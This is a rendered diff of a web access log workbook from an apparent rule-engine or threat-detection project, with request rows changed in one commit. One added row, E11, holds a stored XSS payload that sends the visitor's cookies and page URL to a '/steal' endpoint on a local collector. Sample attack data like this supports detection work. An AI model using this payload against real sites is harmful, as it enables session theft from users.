

Before and after one commit to cyberhub2025/Rule-Engine, an Excel workbook: raw_logs.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/raw_logs.xlsx (sheet Sheet1)
+++ b/raw_logs.xlsx (sheet Sheet1)
-B2 (Date): 12/Apr/2026
+B2 (Date): 21/Apr/2026
-C2 (Time): 22:58:28
+C2 (Time): 10:53:33
-F2 (Status Code): 302
+F2 (Status Code): 200
+row 3: 127.0.0.1 | 21/Apr/2026 | 10:53:33 | GET | /static/css/style.css | 304
-B4 (Date): 12/Apr/2026
+B4 (Date): 21/Apr/2026
-C4 (Time): 22:58:28
+C4 (Time): 10:53:36
-E4 (URL): /login
+E4 (URL): /comments
+row 5: 127.0.0.1 | 21/Apr/2026 | 10:53:36 | GET | /static/css/style.css | 304
-B6:B7 (Date): 12/Apr/2026
+B6:B7 (Date): 21/Apr/2026
-C6 (Time): 22:58:28
+C6 (Time): 10:53:36
-E6 (URL): /favicon.ico
+E6 (URL): /static/js/main.js
-F6 (Status Code): 404
+F6 (Status Code): 304
-C7 (Time): 22:58:48
+C7 (Time): 10:53:51
-E7 (URL): /login?username=imon&password=1234
+E7 (URL): /comments/add?name=piyush&comment=sarkar%0A
+row 8: 127.0.0.1 | 21/Apr/2026 | 10:53:51 | GET | /comments | 200
+row 9: 127.0.0.1 | 21/Apr/2026 | 10:53:51 | GET | /static/css/style.css | 304
+row 10: 127.0.0.1 | 21/Apr/2026 | 10:53:51 | GET | /static/js/main.js | 304
-B11:B12 (Date): 12/Apr/2026
+B11:B12 (Date): 21/Apr/2026
-C11:C12 (Time): 22:59:05
+C11:C12 (Time): 10:54:15
-E11 (URL): /login?username=admin&password=1234
+E11 (URL): /comments/add?name=admin&comment=<script>new+Image().src%3D'http://127.0.0.1:5001/steal?cookie%3D'%2Bbtoa(document.cookie)%2B"%26url%3D"%2BencodeURIComponent(window.location.href)</script>%0A
-F11 (Status Code): 302
+F11 (Status Code): 200
-E12 (URL): /
+E12 (URL): /comments
+row 13: 127.0.0.1 | 21/Apr/2026 | 10:54:15 | GET | /static/css/style.css | 304
+row 14: 127.0.0.1 | 21/Apr/2026 | 10:54:15 | GET | /static/js/main.js | 304
-B15:B17 (Date): 12/Apr/2026
+B15:B17 (Date): 21/Apr/2026
-C15:C16 (Time): 22:59:07
+C15:C16 (Time): 10:54:32
-E15 (URL): /logout
+E15 (URL): /comments/add?name=admin3&comment=soumya
-F15 (Status Code): 302
+F15 (Status Code): 200
-E16 (URL): /login
+E16 (URL): /comments
-C17 (Time): 23:02:42
+C17 (Time): 10:54:32
-E17 (URL): /sitemap.xml
+E17 (URL): /static/css/style.css
-F17 (Status Code): 404
+F17 (Status Code): 304
```
Also changed, not shown: 26 added rows and 74 edited cells elsewhere in this sheet, threat_logs.xlsx, 13 other files.
